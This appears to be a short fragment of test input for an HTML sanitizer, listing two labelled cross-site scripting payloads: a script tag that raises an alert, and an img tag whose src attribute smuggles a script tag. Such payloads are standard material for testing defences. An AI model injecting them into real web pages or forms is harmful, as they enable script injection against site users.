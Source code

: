 Attack 1:
<script>
    console.error('COMPROMISED by Attack 1!');
    alert('COMPROMISED by Attack 1!');
</script>

Attack 2:
<img src='><script>throw new Error()</script>'/>
